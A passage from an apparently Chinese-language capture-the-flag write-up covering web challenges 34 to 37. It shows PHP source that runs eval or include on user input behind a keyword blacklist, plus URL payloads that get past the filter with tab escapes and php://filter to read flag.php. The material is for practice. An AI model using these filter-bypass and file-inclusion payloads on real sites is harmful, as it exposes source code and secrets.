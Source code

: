 
同web34进行逃逸和文件包含

?c=include%09$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php



### web36

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:16
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

他这次把数字给禁用了

?c=include%09$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php



### web37

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
```